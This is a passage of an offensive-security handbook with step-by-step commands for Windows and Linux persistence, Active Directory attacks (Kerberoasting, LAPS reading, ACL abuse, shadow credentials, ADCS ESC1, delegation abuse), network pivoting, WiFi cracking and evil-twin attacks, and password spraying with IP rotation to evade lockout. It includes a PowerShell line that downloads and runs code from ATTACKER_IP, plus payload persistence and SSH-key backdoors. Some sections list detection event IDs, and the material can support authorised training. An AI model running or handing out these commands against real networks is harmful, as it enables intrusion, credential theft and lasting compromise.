reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "C:\Temp\payload.exe" /f

# Scheduled Tasks
schtasks /create /tn "SystemUpdate" /tr "C:\Temp\payload.exe" /sc onstart /ru SYSTEM /f
schtasks /create /tn "HourlySync" /tr "C:\Temp\payload.exe" /sc hourly /f

# Linux Persistence
mkdir -p ~/.ssh
echo "ssh-rsa YOUR_PUBLIC_KEY_HERE" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh

# Cron job:
echo "* * * * * /tmp/payload.sh" | crontab -

# Bash profile:
echo "/tmp/payload.sh &" >> ~/.bashrc
```

> For C2-based persistence that survives reboots and EDR restarts, see Section 11.

---

---

## SECTION 6.6: ACTIVE DIRECTORY ENUMERATION AND ATTACKS

### What This Is and Why It Matters

When you gain a foothold on a domain-joined machine, you are immediately inside an Active Directory environment. This section covers everything from initial enumeration to advanced attacks including ADCS exploitation, ACL abuse, shadow credentials, LAPS bypass, and delegation attacks.

### AD Attack Surface Map

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 6.6.1 Manual AD Enumeration

```powershell
# Domain basic info
net user /domain                      # All domain users
net group /domain                     # All domain groups
net group "Domain Admins" /domain     # Who is in Domain Admins
net group "Enterprise Admins" /domain
net group "Domain Controllers" /domain
net accounts /domain                  # Password policy: READ THIS BEFORE spraying

# Find the domain controller
nltest /dclist:domain.local
nslookup -type=SRV _ldap._tcp.dc._msdcs.domain.local

# Current user's domain memberships
net user %USERNAME% /domain

# Find computers in the domain
net view /domain
```

---

### 6.6.2 PowerShell AD Enumeration

```powershell
# Import the Active Directory module (available on machines with RSAT or AD DS):
Import-Module ActiveDirectory

# Get all users:
Get-ADUser -Filter * -Properties * | Select-Object Name, SamAccountName, DistinguishedName, Enabled

# Find AS-REP Roastable accounts (no pre-auth required):
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

# Find Kerberoastable accounts (have SPN set):
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# Find computers:
Get-ADComputer -Filter * | Select-Object Name, OperatingSystem, OperatingSystemVersion

# Find groups and members:
Get-ADGroup -Filter * | Select-Object Name, GroupScope
Get-ADGroupMember "Domain Admins" | Select-Object Name, SamAccountName

# Current domain info:
Get-ADDomain | Select-Object Name, DomainMode, PDCEmulator, RIDMaster
```

---

### 6.6.3 rpcclient - Raw RPC Enumeration

```bash
# Connect with credentials:
rpcclient -U "domain/user%Password123" DC_IP

# Connect anonymously (may work in misconfigured environments):
rpcclient -N DC_IP

# Inside rpcclient session:
rpcclient> enumdomusers              # All domain users with RIDs
rpcclient> enumdomgroups             # All domain groups with RIDs
rpcclient> queryuser 0x1f4           # User info by RID (0x1f4 = 500 = Administrator)
rpcclient> querygroupmem 0x200       # Members of Domain Admins (RID 512 = 0x200)
rpcclient> getdompwinfo              # Password policy (lockout threshold)
rpcclient> netshareenumall           # All shares on the server
rpcclient> lsaenumsid                # All SIDs

# RID cycling (user enumeration without credentials in some environments):
for i in $(seq 500 2000); do
  rpcclient -N DC_IP -c "queryuser $(printf '0x%x' $i)" 2>/dev/null | grep "User Name"
done
```

---

### 6.6.4 ldapsearch and enum4linux-ng

```bash
# Anonymous LDAP query:
ldapsearch -H ldap://DC_IP -x -s base namingcontexts

# Enumerate all users:
ldapsearch -H ldap://DC_IP -x -D "domain\\user" -w "Password123" \
  -b "DC=domain,DC=local" "(objectClass=user)" sAMAccountName cn mail

# Find AS-REP Roastable accounts:
ldapsearch -H ldap://DC_IP -x -D "domain\\user" -w "Password123" \
  -b "DC=domain,DC=local" "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" sAMAccountName

# Find Kerberoastable accounts:
ldapsearch -H ldap://DC_IP -x -D "domain\\user" -w "Password123" \
  -b "DC=domain,DC=local" "(servicePrincipalName=*)" sAMAccountName servicePrincipalName

# enum4linux-ng (modernised all-in-one):
pip3 install enum4linux-ng
enum4linux-ng -A -u user -p Password123 DC_IP
# Key output: password policy, users, groups, shares, OS version
```

---

### 6.6.5 AS-REP Roasting

**This works without any credentials at all if you know valid usernames.**

```bash
# Without credentials (requires a user list):
impacket-GetNPUsers domain.local/ -no-pass -usersfile users.txt -dc-ip DC_IP -format hashcat

# With credentials (automatic account discovery):
impacket-GetNPUsers domain.local/user:Password123 -dc-ip DC_IP -request

# From Windows: Rubeus
.\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\asrep_hashes.txt

# Crack:
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule
```

**Detection artifacts:**
- Event ID 4768 (Kerberos Authentication Service Request) with Pre-Authentication Type = 0

---

### 6.6.6 Kerberoasting

**Requires any valid domain credential: even a low-privilege user.**

```bash
# From Linux:
impacket-GetUserSPNs domain.local/user:Password123 -dc-ip DC_IP
impacket-GetUserSPNs domain.local/user:Password123 -dc-ip DC_IP -request -output kerberoast_hashes.txt

# From Windows: Rubeus
.\Rubeus.exe kerberoast /format:hashcat /outfile:C:\Temp\kerberoast_hashes.txt
.\Rubeus.exe kerberoast /user:svc_sql /format:hashcat

# Crack:
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule

# OneRuleToRuleThemAll: https://github.com/NotSoSecure/password_cracking_rules
```

---

### 6.6.7 LAPS Enumeration

LAPS (Local Administrator Password Solution) stores unique randomised local admin passwords in Active Directory. If you can read the `ms-McsAdmPwd` attribute, you get the local admin password for that machine in cleartext.

```bash
# From Linux: pyLAPS
# https://github.com/p0dalirius/pyLAPS
python3 pyLAPS.py -d domain.local -u user -p Password123 -dc-ip DC_IP --action get
# Shows: computer name and its current LAPS password

# From Linux: nxc
nxc ldap DC_IP -u user -p Password123 --laps

# From Windows (PowerShell):
Get-ADComputer COMPUTER_NAME -Properties ms-McsAdmPwd | Select-Object Name, ms-McsAdmPwd

# BloodHound CE: pre-built query
# "Find All Computers with LAPS" -> "Find LAPS Readable Computers by User"
# If your current user can read LAPS, BloodHound shows it

# Use the LAPS password for lateral movement:
nxc smb TARGET_IP -u administrator -p "LAPS_PASSWORD_HERE" --local-auth
impacket-psexec administrator:LAPS_PASSWORD@TARGET_IP
```

**Detection artifacts:**
- LDAP query for ms-McsAdmPwd: Event ID 1644 on DC (if LDAP diagnostics enabled)
- Reading LAPS attribute: visible in AD object access audit log if configured

---

### 6.6.8 ACL Abuse

Active Directory object permissions are frequently misconfigured. BloodHound identifies these automatically, but you need to know how to abuse each permission type.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

```bash
# Find ACL misconfigurations with BloodHound:
# "Find Principals with DCSync Rights"
# "Find Shortest Paths to Domain Admins" (includes ACL edges)
# Edge types to look for: GenericAll, GenericWrite, WriteOwner, WriteDACL,
#   ForceChangePassword, AddMember, Owns

# Abuse with PowerView (load from memory: see Section 10):
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/PowerView.ps1')
# PowerView: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

# GenericAll on a User: reset their password
Set-DomainUserPassword -Identity target_user -AccountPassword (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)

# GenericAll on a Group: add yourself to the group
Add-DomainGroupMember -Identity "Domain Admins" -Members "your_username"

# GenericWrite on a User: set SPN and Kerberoast them (targeted Kerberoasting)
Set-DomainObject -Identity target_user -Set @{serviceprincipalname="fake/spn"}
.\Rubeus.exe kerberoast /user:target_user /format:hashcat

# WriteDACL on Domain Object: grant yourself DCSync rights
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity your_username \
  -Rights DCSync

# ForceChangePassword
$pass = ConvertTo-SecureString "NewPass123!" -AsPlainText -Force
Set-DomainUserPassword -Identity target_user -AccountPassword $pass

# WriteOwner: take ownership first
Set-DomainObjectOwner -Identity target_user -OwnerIdentity your_username
# Then grant yourself GenericAll:
Add-DomainObjectAcl -TargetIdentity target_user -PrincipalIdentity your_username -Rights All
```

**Detection artifacts:**
- ACL modification: Event ID 5136 (Directory Service Object Modified)
- Group membership change: Event ID 4728 (member added to security-enabled global group)
- Password reset: Event ID 4723 (password change attempt) and 4724 (password reset)

---

### 6.6.9 Shadow Credentials

Shadow credentials abuse the `msDS-KeyCredentialLink` attribute on AD objects. If you can write to this attribute on a user or computer account, you can add your own public key, then authenticate as that account using PKINIT Kerberos and obtain their NT hash. No password change needed.

```bash
# Requirements:
# - Write permission on target's msDS-KeyCredentialLink attribute
#   (GenericAll, GenericWrite, or explicit WriteProperty on that attribute)
# - Windows Server 2016+ DC (PKINIT support)
# - Active ADCS or Windows Hello for Business configured (some scenarios work without)

# Tool: certipy (also handles ADCS attacks: see 6.6.10)
pip3 install certipy-ad

# Check if target is vulnerable (needs write on msDS-KeyCredentialLink):
certipy shadow auto -u user@domain.local -p Password123 -account target_user -dc-ip DC_IP
# This automatically:
# 1. Adds a new key credential to target_user's msDS-KeyCredentialLink
# 2. Authenticates as target_user using the key
# 3. Obtains target_user's NT hash via PKINIT
# 4. Removes the key credential (cleanup)

# Output: target_user's NT hash -> use for PtH

# Manual steps (if you want to understand what certipy is doing):
# Step 1: Add key credential
certipy shadow add -u user@domain.local -p Password123 -account target_user -dc-ip DC_IP
# Step 2: Authenticate and get hash
certipy auth -pfx target_user.pfx -domain domain.local -username target_user -dc-ip DC_IP
# Step 3: Clean up
certipy shadow remove -u user@domain.local -p Password123 -account target_user -dc-ip DC_IP

# From Windows: Whisker
# https://github.com/eladshamir/Whisker
.\Whisker.exe add /target:target_user /domain:domain.local /dc:DC_IP
.\Rubeus.exe asktgt /user:target_user /certificate:CERT_BASE64 /password:"CERT_PASSWORD" /getcredentials
```

**Detection artifacts:**
- Modification of msDS-KeyCredentialLink: Event ID 5136 (Directory Service Object Modified)
- PKINIT authentication: Event ID 4768 with Certificate Issuer field set

---

### 6.6.10 ADCS Exploitation - ESC1

Active Directory Certificate Services (ADCS) is one of the most critical attack surfaces in modern corporate networks. ESC1 is the most common misconfiguration: a certificate template that allows the enrollee to specify a Subject Alternative Name (SAN), combined with client authentication usage. This lets you request a certificate for any user, including Domain Admin, and use it to authenticate.

```bash
# Tool: certipy
pip3 install certipy-ad

# Step 1: Find vulnerable certificate templates
certipy find -u user@domain.local -p Password123 -dc-ip DC_IP -vulnerable -stdout
# Look for: "ESC1" in the output
# ESC1 conditions:
#   - Enrollment Rights: Domain Users (or your account)
#   - Client Authentication: True
#   - Enrollee Supplies Subject: True (the critical misconfig)

# Step 2: Request a certificate as Domain Admin
certipy req -u user@domain.local -p Password123 -dc-ip DC_IP \
  -ca "DOMAIN-CA" -template VulnerableTemplate -upn administrator@domain.local
# -ca: CA name from certipy find output
# -template: vulnerable template name from certipy find
# -upn: the user you want to impersonate (Domain Admin UPN)
# Output: administrator.pfx (certificate and private key)

# Step 3: Authenticate as Domain Admin using the certificate
certipy auth -pfx administrator.pfx -domain domain.local -username administrator -dc-ip DC_IP
# Output: Administrator's NT hash and a Kerberos TGT

# Step 4: Use the hash or ticket
impacket-secretsdump -hashes :NTLM_HASH administrator@DC_IP -just-dc
# Or:
export KRB5CCNAME=administrator.ccache
impacket-secretsdump -k -no-pass administrator@DC_IP -just-dc

# Other ESC variants:
# ESC4: vulnerable template ACL (you have write rights on the template itself)
certipy template -u user@domain.local -p Password123 -template VulnTemplate \
  -save-old -dc-ip DC_IP
# Then exploit as ESC1

# ESC6: CA with EDITF_ATTRIBUTESUBJECTALTNAME2 flag (any template becomes ESC1)
# ESC8: NTLM relay to AD CS HTTP endpoints
impacket-ntlmrelayx -t http://CA_IP/certsrv/certfnsh.asp --adcs --template DomainController
```

**Why ADCS matters:** In 2026, over 90% of enterprise environments run ADCS. ESC1 alone is present in a large proportion of default installations. Once you have a certificate for Domain Admin, it remains valid for the template's validity period (often 1-2 years), even after the account's password changes. It is one of the most powerful persistence mechanisms available.

**Detection artifacts:**
- Certificate request with unusual UPN: Event ID 4886 (Certificate Services received a certificate request) on the CA
- Certipy authentication: Event ID 4768 with unusual Certificate Issuer

---

### 6.6.11 Constrained Delegation Abuse

Delegation allows a service account to act on behalf of users when accessing other services. Misconfigured delegation is a direct path to Domain Admin.

```bash
# Types of delegation:
# Unconstrained: can impersonate any user to any service (Phase 3 territory)
# Constrained: can impersonate any user to specific services
# Resource-Based Constrained Delegation (RBCD): controlled by the resource, not the requester

# Find accounts with constrained delegation:
Get-ADUser -Filter {TrustedToAuthForDelegation -eq $true} -Properties TrustedToAuthForDelegation, msDS-AllowedToDelegateTo
Get-ADComputer -Filter {TrustedToAuthForDelegation -eq $true} -Properties msDS-AllowedToDelegateTo

# Abuse constrained delegation (S4U2Proxy) with Rubeus:
# You need the account's NT hash or ticket
.\Rubeus.exe s4u /user:svc_account /rc4:NT_HASH /impersonateuser:administrator \
  /msdsspn:cifs/targetserver.domain.local /ptt
# /msdsspn: the service this account is trusted to delegate to
# /ptt: inject ticket directly

# RBCD attack:
# If you have write access to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute
# on a computer account, you can configure RBCD from an attacker-controlled machine.
# Then use S4U to impersonate any user to that computer.

# Step 1: Create a new machine account (if MachineAccountQuota allows it)
impacket-addcomputer domain.local/user:Password123 -computer-name ATTACKER$ \
  -computer-pass AttackerPass123! -dc-ip DC_IP

# Step 2: Set RBCD on the target computer
Get-ADComputer TARGET_COMPUTER | Set-ADComputer -PrincipalsAllowedToDelegateToAccount ATTACKER$

# Step 3: Get a service ticket for administrator on the target
.\Rubeus.exe s4u /user:ATTACKER$ /rc4:NT_HASH_OF_ATTACKER$ /impersonateuser:administrator \
  /msdsspn:cifs/TARGET_COMPUTER.domain.local /ptt
# You now have a ticket as administrator on the target computer
```

---

---

## SECTION 7: NETWORK PIVOTING AND TUNNELING

### What This Is and Why It Matters

Your initial access lands you on a machine in one network segment. High-value targets (domain controllers, database servers, internal applications) are in segments you cannot directly reach. Pivoting uses your compromised machine as a relay to reach those internal segments.

### Pivoting Architecture

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 7.1 Ligolo-ng - TUN Interface Pivoting (Recommended)

Ligolo-ng creates a real network interface on your attacker machine and routes traffic through the tunnel. Tools like nmap, impacket, and evil-winrm work natively: no proxychains needed.

```bash
# Download: https://github.com/nicocha30/ligolo-ng
# Download both: proxy (runs on attacker) + agent (drops on target)

# ATTACKER: Start the proxy server:
sudo ./proxy -selfcert -laddr 0.0.0.0:11601

# TARGET: Drop and connect the agent:
./agent -connect ATTACKER_IP:11601 -ignore-cert    # Linux
.\agent.exe -connect ATTACKER_IP:11601 -ignore-cert  # Windows

# ATTACKER: In the ligolo-ng console:
ligolo-ng >> session           # List connected agents
ligolo-ng >> 1                 # Select agent 1
ligolo-ng >> ifconfig          # See target's network interfaces: note internal subnets
ligolo-ng >> start             # Start tunneling

# ATTACKER: Add route to the internal network:
sudo ip route add 10.10.10.0/24 dev ligolo
# Now scan internal network directly: no proxychains:
nmap -sV 10.10.10.0/24
impacket-secretsdump domain/user:pass@10.10.10.5
evil-winrm -i 10.10.10.10 -u administrator -p 'Password123!'

# Double pivot: reach a third network segment:
# On first pivot machine (10.10.10.x), run a second agent
# In ligolo: select second agent -> start
sudo ip route add 172.16.0.0/24 dev ligolo
```

---

### 7.2 Chisel - HTTP/S Tunnel

```bash
# https://github.com/jpillora/chisel
# Download binaries for attacker (Linux) and target (Windows/Linux)

# ATTACKER: Start server:
./chisel server --port 8080 --reverse --socks5

# TARGET: Connect and create reverse SOCKS5 tunnel:
.\chisel.exe client ATTACKER_IP:8080 R:socks
# Creates SOCKS5 proxy on attacker at 127.0.0.1:1080

# Configure proxychains (/etc/proxychains4.conf):
# socks5 127.0.0.1 1080

# Route tools through SOCKS proxy:
proxychains4 nmap -sT -Pn 10.10.10.0/24
proxychains4 impacket-psexec domain/user:pass@10.10.10.5

# TLS to blend into HTTPS traffic:
# ATTACKER:
./chisel server --port 443 --reverse --socks5 \
  --tls-cert /path/to/cert.pem --tls-key /path/to/key.pem
# TARGET:
.\chisel.exe client --tls-skip-verify https://ATTACKER:443 R:socks

# Forward a specific port:
.\chisel.exe client ATTACKER:8080 R:3389:10.10.10.5:3389
# Now: RDP to 127.0.0.1:3389 -> tunnels to 10.10.10.5:3389
```

---

### 7.3 SSH Tunneling

```bash
# Dynamic port forwarding (SOCKS proxy over SSH):
ssh -D 1080 -N -f user@PIVOT_HOST
proxychains4 nmap -sT 10.10.10.0/24

# Local port forward (reach one specific internal service):
ssh -L 3389:INTERNAL_HOST:3389 user@PIVOT_HOST -N -f
# RDP to 127.0.0.1:3389 -> tunnels

# Remote port forward (expose your attacker port on the pivot):
ssh -R 4444:127.0.0.1:4444 user@PIVOT_HOST -N -f

# Multi-hop:
ssh -J user@JUMP1,user@JUMP2 user@FINAL_TARGET

# SSH config for clean multi-hop (~/.ssh/config):
Host final
    HostName 10.10.10.20
    User admin
    ProxyJump user@jump1.example.com,user@jump2.example.com
```

---

### 7.4 Port Forwarding on Windows - No Binary

```powershell
# netsh portproxy: built-in Windows

# Forward local port 8080 to internal 10.10.10.5:445:
netsh interface portproxy add v4tov4 `
  listenport=8080 listenaddress=0.0.0.0 `
  connectport=445 connectaddress=10.10.10.5

# List all rules:
netsh interface portproxy show all

# Delete a rule (cleanup):
netsh interface portproxy delete v4tov4 listenport=8080

# Allow through Windows Firewall:
netsh advfirewall firewall add rule name="pivot" `
  protocol=TCP dir=in localport=8080 action=allow
```

---

### 7.5 DNS Tunneling - Last Resort

```bash
# Use when: target network only allows DNS egress (port 53 outbound)
# Data rate: ~3KB/s (very slow) but reliable for C2 beaconing
# Requires: a domain you control with a nameserver record pointing to your attacker

# iodine: tunnels IP over DNS
# SERVER (must be reachable as nameserver for tunnel.yourdomain.com):
sudo iodined -f -c -P secretpassword 10.99.0.1 tunnel.yourdomain.com

# CLIENT (on target):
iodine -f -P secretpassword DNS_SERVER_IP tunnel.yourdomain.com

# dnscat2: simpler, C2-focused DNS tunnel
# Server (attacker):
ruby dnscat2.rb tunnel.yourdomain.com
# Client (Windows):
.\dnscat2.exe tunnel.yourdomain.com
```

---

---

## SECTION 8: WIRELESS ATTACKS

### What This Is and Why It Matters

Wireless attacks are for physical proximity to the target's WiFi. A hardened perimeter is useless if the corporate WiFi password is `Company2026!`.

**Hardware requirement:** A WiFi adapter supporting monitor mode and packet injection. Built-in laptop adapters almost never support this.

**Recommended adapters (2026-2027):**
- Alfa AWUS036ACH: 802.11ac, widely supported in Kali, dual-band
- Alfa AWUS036ACHM: MU-MIMO, better range
- Check support: `iw list | grep -A 10 "Supported interface modes"` (must show `monitor`)

---

### Curriculum

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| [Aircrack-ng Documentation](https://www.aircrack-ng.org/documentation.html) | Docs | 3 hours | FREE | Read the official suite documentation completely. |
| [hcxtools Documentation](https://github.com/ZerBea/hcxtools) | Docs | 2 hours | FREE | Modern WPA capture and conversion toolchain. |
| [WPA3 Dragonblood Paper](https://papers.mathyvanhoef.com/dragonblood.pdf) | Paper | 2 hours | FREE | Understanding WPA3's attack surface. |

---

### 8.1 Setup - Monitor Mode

```bash
# Kill processes that interfere:
airmon-ng check kill

# Enable monitor mode:
airmon-ng start wlan0
# Interface becomes: wlan0mon

# Alternative (more reliable on some adapters):
ip link set wlan0 down
iw wlan0 set monitor none
ip link set wlan0 up

# Verify:
iwconfig wlan0mon    # Should show: Mode:Monitor
```

---

### 8.2 WPA2-Personal - Handshake Capture and Crack

```bash
# Scan for networks:
airodump-ng wlan0mon
# Key columns: BSSID (AP MAC), CH (channel), ENC (encryption), ESSID (SSID name)

# Target a specific network:
airodump-ng --bssid TARGET_BSSID --channel TARGET_CH \
  --write handshake_capture wlan0mon

# Deauthenticate a client to force reconnection:
aireplay-ng --deauth 5 -a TARGET_BSSID -c CLIENT_MAC wlan0mon
# airodump-ng shows: [ WPA handshake: TARGET_BSSID ] when captured

# CPU cracking:
aircrack-ng handshake_capture-01.cap -w /usr/share/wordlists/rockyou.txt

# GPU cracking (vastly faster):
hcxpcapngtool -o capture.hc22000 handshake_capture-01.cap
hashcat -m 22000 capture.hc22000 /usr/share/wordlists/rockyou.txt
# -m 22000: WPA-PBKDF2-PMKID+EAPOL (unified WPA/WPA2 mode)

# Add rules:
hashcat -m 22000 capture.hc22000 /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule
```

---

### 8.3 PMKID Attack - No Client Required

```bash
# hcxdumptool captures PMKIDs directly from APs:
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng \
  --enable_status=1 --filterlist_ap=target_bssid.txt
# Run for 2-5 minutes

# Convert:
hcxpcapngtool -o pmkid.hc22000 pmkid.pcapng

# Crack:
hashcat -m 22000 pmkid.hc22000 /usr/share/wordlists/rockyou.txt
```

> **Why PMKID is better:** No deauth packets needed. No waiting for a client. Fully passive. Most corporate WiFi APs are vulnerable even when no clients are connected.

---

### 8.4 Evil Twin - WPA2-Enterprise (Corporate Networks)

```bash
# Hostapd-WPE: rogue AP targeting WPA2-EAP (MSCHAPv2)
apt install hostapd-wpe

cat > /etc/hostapd-wpe/hostapd-wpe.conf << 'EOF'
interface=wlan0mon
ssid=CorporateWiFi
channel=6
auth_server_shared_secret=RADIUS_SECRET
ieee8021x=1
eap_server=1
EOF

sudo hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
# Captured credentials appear:
# username: jsmith@domain.com
# NT: a3b4c5d6e7f8... (NTLMv2 hash)

# Crack NTLMv2:
hashcat -m 5600 captured_ntlm.txt /usr/share/wordlists/rockyou.txt

# eaphammer (automates the full evil twin process):
# https://github.com/s0lst1c3/eaphammer
./eaphammer -i wlan0 --channel 6 --auth wpa-eap --essid CorporateWiFi \
  --creds --negotiate balanced
```

---

### 8.5 WPA3 Transition Mode Attacks

**Why transition mode is the real attack surface:** Pure WPA3 networks (SAE-only, PMF required) are significantly more resistant. But in 2026-2027, the vast majority of corporate WiFi networks are still in WPA3 transition mode for device compatibility reasons.

```bash
# Step 1: Identify if the target AP is in transition mode
airodump-ng wlan0mon
# Look for: WPA2+SAE or "WPA3 Transition" in the ENC column

# Step 2: Create a WPA2-only rogue AP with the same SSID
cat > /tmp/wpa2_only.conf << 'EOF'
interface=wlan0mon
driver=nl80211
ssid=TargetWiFi          # Exact SSID of the WPA3 network
hw_mode=g
channel=6
wpa=2
wpa_passphrase=doesntmatter
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
EOF

sudo hostapd /tmp/wpa2_only.conf &

# Step 3: Deauthenticate a WPA3 client from the real AP
aireplay-ng --deauth 10 -a REAL_AP_BSSID -c CLIENT_MAC wlan0mon
# Client roams -> connects to WPA2 rogue AP (if susceptible) -> handshake captured

# Step 4: Capture and crack the WPA2 handshake
airodump-ng --bssid YOUR_ROGUE_AP_MAC --channel 6 --write wpa3_downgrade wlan0mon
hcxpcapngtool -o downgrade.hc22000 wpa3_downgrade-01.cap
hashcat -m 22000 downgrade.hc22000 /usr/share/wordlists/rockyou.txt

# Dragonblood side-channel attacks (direct WPA3-SAE attack, requires vulnerable AP firmware)
# Research: https://papers.mathyvanhoef.com/dragonblood.pdf
# Tools: https://github.com/vanhoefm/dragonslayer
python3 dragonslayer.py --interface wlan0mon --target-bssid TARGET_BSSID
```

---

---

## SECTION 9: PASSWORD ATTACKS METHODOLOGY

### 9.1 Password Spraying

**CRITICAL: Read the password policy BEFORE spraying.**

```bash
# Read the policy first:
net accounts /domain              # On a Windows machine in the domain
enum4linux-ng -A DC_IP            # From Linux
# Fields: Lockout threshold (spray at threshold - 1), Observation window

# Domain spraying with kerbrute (Kerberos-based, lower noise):
# https://github.com/ropnop/kerbrute
./kerbrute userenum -d domain.local --dc DC_IP users.txt    # Enumerate valid users first
./kerbrute passwordspray -d domain.local --dc DC_IP users.txt "Password2027!"

# Domain spraying with nxc:
nxc smb DC_IP -u users.txt -p passwords.txt --no-bruteforce
nxc smb DC_IP -u users.txt -p "Summer2027!" --continue-on-success

# M365/Azure AD spraying with CredMaster + FireProx (IP rotation):
# Each request comes from a different AWS IP: bypasses per-IP lockout
# https://github.com/knavesec/CredMaster
python3 credmaster.py --plugin msol \
  --access_key AWS_KEY --secret_access_key AWS_SECRET \
  -u domain_users.txt -p passwords.txt -t 5

# Build user lists from theHarvester:
awk -F@ '{print $1}' harvested_emails.txt > domain_users.txt

# Corporate password patterns (highest-yield in 2026-2027):
# CompanyName2027!    CompanyName2026!
# Spring2027!   Summer2027!   Winter2026!   Fall2026!
# January2027!  September2027!
# Welcome1   Welcome@1   P@ssword1   Password123!
# ACME2027!   acme@123

# Build custom wordlist from company website:
cewl https://www.target.com -d 3 -w custom_words.txt
cewl https://www.target.com/about -d 2 >> custom_words.txt
sort -u custom_words.txt -o custom_words.txt
```

---

